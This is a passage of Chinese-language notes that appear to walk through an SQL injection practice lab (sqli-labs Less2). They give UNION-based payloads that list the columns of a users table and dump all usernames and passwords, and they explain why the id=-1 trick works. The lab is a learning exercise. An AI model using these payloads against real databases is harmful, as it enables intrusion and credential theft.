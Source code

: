 查询users表中的字段：`?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273`

![image-20211013193927917](./typora-user-images/image-20211013193927917.png)

查询所有的用户名和密码：`?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users`

![image-20211013194254837](./typora-user-images/image-20211013194254837.png)

#### 讲解

- 为什么用到-1
  - 是基于错误类型的，数据库中没有`id=-1`的情况，所以可以报错回显。同样可以用`id=1 and 1=2`进行实验。

![image-20211013200840442](./typora-user-images/image-20211013200840442.png)





### Less3

#### 根据源码判断类型

